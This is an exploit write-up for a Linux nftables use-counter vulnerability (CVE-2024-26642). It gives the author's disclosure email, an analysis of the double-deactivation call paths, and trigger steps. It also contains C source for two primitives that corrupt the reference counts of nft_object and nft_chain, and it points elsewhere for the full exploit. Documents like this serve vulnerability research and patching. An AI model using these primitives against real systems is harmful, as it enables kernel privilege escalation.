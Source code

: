 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2023-6817, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Some additional stories
After reading `vulnerability.md` or `cause analysis`, you may wonder why the root cause and patch do not seem to match. I can only talk about the vulnerability reporting process for this question.
I sent a vulnerability report to security@kernel.org at 2024.2.29 13:33: 
``` 
Hi, I've found a new vulnerability in Linux netfilter/nftable subsystem. In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step: 
1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS. 
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION. 
3. Create a chain. 
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1. 
5. Delete the chain And finally nft_setelem_data_deactivate will be called for the same set element both in nft_map_deactivate and in function pipapo_gc.

Attachment is the poc I wrote for this vulnerability, which leaks some kernel pointers. I tested it on linux 6.1.78.

Thanks,
lonial con
```
The email also attached a poc I wrote based on the trigger idea (it can cause the latest kernel at that time to produce crahs). I did not receive any reply emails afterwards.
On 2024.3.5, I noticed that the maintainer of netfilter pushed a patch to netfilter (https://patchwork.ozlabs.org/project/netfilter-devel/patch/20240301022605.146412-1-pablo@netfilter.org/). He pushed the corresponding patch without asking for any opinion from me.

The patch did make my poc not work, but this patch did not fix the core of the problem `set->dead = 1`. Therefore, I added two patch commits to `vulnerability.md`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it
The method of exploiting CVE-2024-26642 is exactly the same as that of exploiting CVE-2023-6817. If you want to learn how I exploit CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).The only difference is how to construct the two primitives.

## Primitive
### Primitive_0
I build a function named as `primitive_0` to change the nft_object->use by triggering the vulnerabiltiy:

```c
//make target_obj->use = target_obj->use - repeat_time
void primitive_0(struct nl_sock *socket, char *table, char *target_obj, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *key = malloc(0x40);
    char *set_name = "set for primitive0";
    char *chain_name = "chain for primitive0";
    msg_list[0] = new_set_pipapo_for_timeout_with_anonymous_msg(table, set_name, NFT_OBJECT_CT_EXPECT);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_expiration_msg(table, set_name, pad, 0xc0, target_obj, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 0);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
How it works:
1. message 0: Create a pipapo set with flags `NFT_SET_TIMEOUT` and `NFT_SET_ANONYMOUS`
2. message from 1 to (repeat_time): Create repeat_time set elements, all of which contain `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`.
3. message repeat_time+1: Create a chain
4. message repeat_time+2: Create a rule on the chain, which contains an expr of type `lookup`. `lookup` expr can be bound to an `nft_set` when initialized, and we let it bind the pipapo set created by message[0].
5. message repeate_time+3: delete the chain created by message repeat_time+1
When the above message is sent, two rounds of calls to `nft_setelem_data_deactivate` for the same set element will be triggered:
    
The first round is when executing message repeate_time+3, and the following call path will be generated in the end:

```c
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> nft_map_deactivate
```

The `nft_map_deactivate` function will call `nft_mapelem_deactivate` -> `nft_setelem_data_deactivate` for all elements in the pipapo set created by message 0.

The second round is after all messages are executed, `netfilter` will call the `nf_tables_commit` function, and finally generate the calling path:
```c
nft_set_commit_update -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```
The function `pipapo_gc` will also call `nft_setelem_data_deactivate` for all timeout elements in pipapo set.
(This is why it is necessary to add `set->dead = 1` in nf_tables_deactivate_set to fix the vulnerability, because after adding this line of code, the subsequent operations will not be executed in the function nft_set_commit_update.)

It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_object->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_object at one time.

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - repeat_time
void primitive_1(struct nl_sock *socket, char *table, char *target_chain, int repeat_time){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i,j;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x100);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    for(i=0;i<repeat_time;i++){
        *(uint64_t *)key = i;
        msg_list[i+1] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, key, 0x40, NULL, 0, 0,0x0100000000000000);
    }
    msg_list[repeat_time+1] = new_chain_msg(table, chain_name, 0);
    msg_list[repeat_time+2] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[repeat_time+3] = del_chain_msg(table, chain_name);
    send_msg_list(socket, msg_list, repeat_time+4);

    free(msg_list);
    free(pad);
}
```
It will trigger the vulnerability as described above. In order to achieve the effect of executing "nft_chain->use--" multiple times on the same nft_object, I created multiple set elements using the same nft_chain at one time.


## Exploit
Because the exploit steps of CVE-2024-26642 is the same as CVE-2023-6817, please read [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_lts_cos/docs/exploit.md).